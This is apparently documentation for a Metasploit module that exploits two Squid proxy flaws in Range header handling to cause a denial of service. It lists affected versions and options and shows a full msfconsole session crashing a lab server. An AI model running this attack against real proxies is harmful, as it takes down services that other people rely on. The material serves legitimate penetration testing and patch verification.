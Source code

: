 ## Vulnerable Application

This module exploits two vulnerabilities in the Squid Caching Proxy server and its
handling of cached pages and the `Range` HTTP header.

Due to the way Squid handles the HTTP request header `Range`, an assertion can be
caused due to a standard HTTP request. Once all of Squid's children workers have
asserted, a Denial of Service of the proxy is achieved.

Vulnerable versions of Squid include:
* 2.5.STABLE2-2.7.STABLE9.
* 3.0-4.1.4.
* 5.0.1-5.0.5.

Security bulletin from Squid: https://github.com/squid-cache/squid/security/advisories/GHSA-pxwq-f3qr-w2xf

## Verification Steps

1. Start msfconsole
2. use auxiliary/dos/http/squid_range_dos.rb`
3. Set `rhost
4. Set `rport`
5. run

## Options

### REQUEST_COUNT

REQUEST_COUNT is both the number of HTTP requests which are sent to the server in
order to perform the actual Denial of Service (i.e. accepted requests by the server),
and the number of requests that are sent to confirm that the Squid host is actually
dead.

### CVE

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2021-31806`, but `CVE-2021-31807` can also be chosen.

## Scenarios

In this scenario the target server is running on the same host as Metasploit (192.168.159.128).
```
msf6 > use auxiliary/dos/http/squid_range_dos i
msf6 auxiliary(dos/http/squid_range_dos) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > show options

Module options (auxiliary/dos/http/squid_range_dos):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CVE            CVE-2021-31806   yes       CVE to check/exploit (Accepted: CVE-2021-31806, CVE-2021-31807)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   REQUEST_COUNT  50               yes       The number of requests to be sent, as well as the number of re-tries to confirm a dead host
   RHOSTS         192.168.159.128  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          3128             yes       The target port (TCP)
   SRVHOST        192.168.159.128  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT        8080             yes       The local port to listen on.
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Perform Denial of Service Against The Target


msf6 auxiliary(dos/http/squid_range_dos) > run
[*] Running module against 192.168.159.128

[*] Sending 50 DoS requests to 192.168.159.128:3128
[*] Using URL: http://192.168.159.128:8080/Sv2fFH3gmGeN4VC
[*] Sent first request to 192.168.159.128:3128
[*] Sent DoS request 1 to 192.168.159.128:3128
[*] Sent DoS request 2 to 192.168.159.128:3128
[*] Sent DoS request 3 to 192.168.159.128:3128
[*] Sent DoS request 4 to 192.168.159.128:3128
[*] Sent DoS request 5 to 192.168.159.128:3128
[+] DoS completely successful.
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(dos/http/squid_range_dos) >
```

At this point, the target Squid server should be completely inaccessible: all children
workers should have exited, and the main process should have also shut down.
